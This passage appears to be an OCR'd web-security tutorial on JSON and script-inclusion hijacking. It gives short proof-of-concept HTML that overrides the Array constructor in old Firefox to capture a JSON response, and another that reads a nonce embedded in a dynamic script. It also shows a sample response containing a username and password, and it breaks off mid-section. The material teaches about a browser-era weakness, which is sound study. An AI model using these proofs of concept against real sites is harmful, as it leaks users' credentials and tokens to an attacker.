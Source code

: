 ```json
[
  ["Name", "Matthew Adamson"],
  ["Username", "adammatt"],
  ["Password", "4nl1ub3"],
  ["Uid", "88"],
  ["Role", "User"]
]
```

**Old Trick:**
Older Firefox allowed overriding `Array()` behavior. The attacker could hook into array creation:

```html
<script>
function capture(val) {
  console.log("Captured:", val);
}

function Array() {
  for (var i = 0; i < 5; i++) {
    this[i] setter = capture; // Trigger capture on assignment
  }
}
</script>
<script src="https://mdsec.net/auth/409/YourDetailsJson.ashx"></script>
```

#### **Why It Worked:**

* When the JSON loaded, Firefox internally called `new Array(...)`.
* Attacker’s malicious `Array()` intercepted each assignment.
* **Note:** Patched in modern browsers — only works in older Firefox (\<v2.0).

---

### **3. Variable Assignment Hijacking**

#### **Scenario:**

App embeds sensitive tokens directly in dynamic scripts:

```javascript
var nonce = '222230313740821';
```

#### **Attack PoC:**

```html
<script src="https://wahh-network.com/status"></script>
<script>
  alert(nonce); // Token available globally
</script>
```

**Variant:** If token is inside a function:
